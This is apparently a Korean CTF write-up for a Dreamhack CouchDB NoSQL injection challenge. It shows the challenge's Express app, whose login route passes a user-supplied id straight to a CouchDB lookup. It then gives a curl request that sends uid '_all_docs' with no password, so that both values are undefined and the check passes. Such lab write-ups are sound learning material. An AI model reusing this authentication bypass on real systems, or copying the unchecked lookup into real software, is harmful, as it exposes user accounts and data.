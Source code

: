 ```yaml
---
title: "[2025-07-25] NoSQL-CouchDB111"
excerpt: "CouchDB injection"

categories:
  - Problem
tags:
  - [NoSQL injection, CouchDB]

permalink: /Problem/[2025-07-25] NoSQL-CouchDB111/

toc: true
toc_sticky: true

date: 2025-07-25
last_modified_at: 2025-07-25
---
```


## 🦥 본문

- app.js

```jsx
var createError = require('http-errors');
var express = require('express');
var path = require('path');
var cookieParser = require('cookie-parser');

const nano = require('nano')(`http://${process.env.COUCHDB_USER}:${process.env.COUCHDB_PASSWORD}@couchdb:5984`);
const users = nano.db.use('users');
var app = express();

// view engine setup
app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'ejs');

app.use(express.json());
app.use(express.urlencoded({ extended: false }));
app.use(cookieParser());
app.use(express.static(path.join(__dirname, 'public')));

/* GET home page. */
app.get('/', function(req, res, next) {
  res.render('index');
});

/* POST auth */
app.post('/auth', function(req, res) {
    users.get(req.body.uid, function(err, result) {
        if (err) {
            console.log(err);
            res.send('error');
            return;
        }
        if (result.upw === req.body.upw) {
            res.send(`FLAG: ${process.env.FLAG}`);
        } else {
            res.send('fail');
        }
    });
});

// catch 404 and forward to error handler
app.use(function(req, res, next) {
  next(createError(404));
});

// error handler
app.use(function(err, req, res, next) {
  // set locals, only providing error in development
  res.locals.message = err.message;
  res.locals.error = req.app.get('env') === 'development' ? err : {};

  // render the error page
  res.status(err.status || 500);
  res.render('error');
});

module.exports = app;
```

사용자로부터 uid와 upw를 받는다. uid를 통해 CouchDB에서 계정을 찾고 해당 결과에서 upw와 사용자가 보낸 upw가 같으면 FLAG가 나온다.

### 풀이과정

1. uid 값에 `_all_docs` 를 입력한다.
2. 아래와 같이 요청을 보낸다.
    
    ```jsx
    curl -X POST http://host1.dreamhack.games:17032/auth -H "Content-Type: application/json" -d '{"uid": "_all_docs"}'
    ```
    
    - uid를 `_all_docs` 를 보내면 에러 없이 get 함수가 실행된다
    - 해당 페이지에서는 upw인 키 값이 없기 때문에 result.upw는 undefined가 된다.
    - upw를 보내지 않으면 undefined가 되기 때문에 조건문을 만족하여 FLAG 값이 나온다.